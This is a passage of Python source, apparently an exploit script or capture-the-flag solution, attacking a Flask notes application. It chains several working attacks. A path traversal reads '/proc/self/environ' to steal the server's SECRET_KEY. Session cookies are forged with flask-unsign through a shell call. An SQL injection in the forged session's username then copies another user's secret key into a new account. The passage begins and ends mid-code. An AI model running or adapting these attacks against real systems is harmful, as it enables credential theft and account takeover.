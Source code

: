 ```python
    }

def register(user):
    time.sleep(1)
    s.post(URL + '/register', data={
        'username': user['username'],
        'password': user['password'],
        'repassword': user['password'],
        'secretkey': user['secretkey'],
    })

def login(user):
    time.sleep(1)
    s.post(URL + '/login', data={
        'username': user['username'],
        'password': user['password'],
    })

def logout():
    time.sleep(1)
    s.get(URL + '/logout')

def read_file(filename):
    time.sleep(1)
    return s.get(URL + '/read_note?filename=' + filename).text

def get_session_key():
    user = random_user()
    register(user)
    login(user)
    content = read_file('../../proc/self/environ')
    return re.findall(r'SECRET_KEY=(.*)\x00HOME=/root', content)[0] # you need to print content and modify this regex 

def get_user_note_list(username, session_key):
    time.sleep(1)
    payload = {
        'username': username,
        'secret_key': '0123456789ABCDEF'
    }
    payload = str(payload).replace('"', '\\"')
    session = os.popen(f"flask-unsign --sign --cookie \"{payload}\" --secret '{session_key}'").read()[:-1]
    resp = requests.get(URL + '/notes', cookies={'session': session}).text
    return re.findall(r'\/read_note\?filename=(.*)\" class=\"btn btn-primary\">', resp)

def copy_user_secret_key(username, session_key):
    time.sleep(1)
    user = random_user()
    md5_password = hashlib.md5(user['password'].encode()).hexdigest()
    payload = {
        'username': ['\'; insert into users(username, password, secret_key) values (\'' + user['username'] + '\', \'' + md5_password + '\', (select k from (select secret_key as k from users where username=\'' + username + '\') a))-- '],
        'secret_key': '0123456789ABCDEF'
    }
    payload = str(payload).replace('"', '\\"')
    session = os.popen(f"flask-unsign --sign --cookie \"{payload}\" --secret '{session_key}'").read()[:-1]
    requests.get(URL + '/notes', cookies={'session': session})
    return user

def test(session_key):
```